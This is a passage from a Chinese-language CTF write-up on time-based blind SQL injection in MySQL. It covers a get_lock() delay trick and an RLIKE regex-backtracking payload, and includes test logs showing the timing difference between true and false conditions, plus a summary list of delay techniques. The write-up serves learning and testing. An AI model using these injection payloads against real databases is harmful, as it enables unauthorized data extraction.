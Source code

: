 最后再总结一下基于get_lock()的新型时间注入<br>
首先必须满足前提：<br>
使用长连接，即

```
mysql_pconnect()
```

然后构造被加锁的数据<br>
1.以客户A的身份,对资源skysec.top进行加锁<br>
2.等待90s，让服务器将我们下一次的查询当做客户B<br>
3.利用客户B去尝试对资源skysec.top进行加锁，由于资源已被加锁，导致延时



## Rlike

这是C014大佬用的方法，我也是真的服<br>
即利用SQL中多次因正则消耗计算资源，达到延时的目的<br>
即构造一个超长的字符串，进行正则匹配

```
concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b'
```

我测试了一下

```
mysql&gt; select * from content where id =1 and IF(1,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
Empty set (4.24 sec)

mysql&gt; select * from content where id =1 and IF(0,concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',0) and '1'='1';
Empty set (0.00 sec)
```

的确可以达到时间延迟的目的<br>
但是效果好像不是很好，也不推荐这个方法(不过思路可以，或许某些特定情况适用)<br>
附上C014大佬的题解：

```
https://www.cdxy.me/?p=789
```

感兴趣的可以研究一下



## 后记

做惯了sleep的盲注，本以为heavy query已经够可以的了，没想到还有get_lock和正则计算这样新鲜的解法，果然好题利于发散思维~给pwnhub打call~<br>
最后归纳出一些时间盲注的方法<br>
1.sleep()<br>
2.benchmark()<br>
3.heavy query<br>
4.get_lock()<br>
5.rlike
